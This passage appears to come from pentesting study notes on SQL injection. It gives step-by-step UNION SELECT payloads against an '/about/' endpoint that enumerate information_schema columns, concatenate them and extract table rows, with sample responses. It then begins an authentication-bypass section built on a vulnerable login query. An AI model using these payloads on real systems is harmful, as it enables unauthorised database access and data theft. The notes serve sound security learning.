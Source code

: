 ***

* As we know the number of columns, we make union to select the _column\_name_ parameter and leave the other columns as null for avoiding error. Then we obtain info from the default db _information\_schema_ and select the _column_ parameter specifying the name of the table we need

{% code overflow="wrap" lineNumbers="true" %}
```sql
#Make the petition to an unvalid value (-1) for avoiding displaying an entry of the database instead of the column name
/about/-1 UNION ALL SELECT column_name,null,null,null,null FROM information_schema.columns WHERE table_name='$tablename'

 About | id None #The result obtained in the response
```
{% endcode %}

***

* Use _group\_concat()_ to get all columns

{% code overflow="wrap" lineNumbers="true" %}
```sql
/about/-1 UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns WHERE table_name='$tablename'

About | id,firstName,lastName,pfpLink,role,shortRole,bio,$columname None #The result obtained in the response
```
{% endcode %}

***

* Obtain required information from the table

{% code overflow="wrap" lineNumbers="true" %}
```sql
/about/-1 UNION ALL SELECT $columname,null,null,null,null FROM $tablename WHERE id = 1
#The response is the information tha we were looking for
```
{% endcode %}

***



## <mark style="color:blue;">Autenthication Bypass</mark>

Method consisting in consider that the web application isn't interested in the content of the username and password but more they make a matching pair in the users table.

* We asumme the DB use tipical query for authentication

{% code overflow="wrap" lineNumbers="true" %}
```sql
SELECT * from users WHERE username='%user%' and password='%password%' LIMIT 1;
```
{% endcode %}
